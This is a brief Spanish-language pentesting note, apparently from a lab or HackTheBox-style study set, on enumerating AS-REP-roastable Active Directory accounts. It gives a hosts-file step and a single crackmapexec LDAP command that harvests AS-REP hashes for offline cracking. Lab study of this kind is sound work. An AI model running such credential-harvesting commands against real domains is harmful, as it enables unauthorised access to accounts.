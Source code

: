 ### Para enumerar ASProast users debemos usar LDAP

Debemos agregar al DC a nuestro archivo hosts con el nombre completo, de otra manera nos dará un error:

    dc.domain.local

Luego podemos enumerar

    crackmapexec ldap dc01.inlanefreight.htb -u users.txt -p '' --asreproast asreproast.out
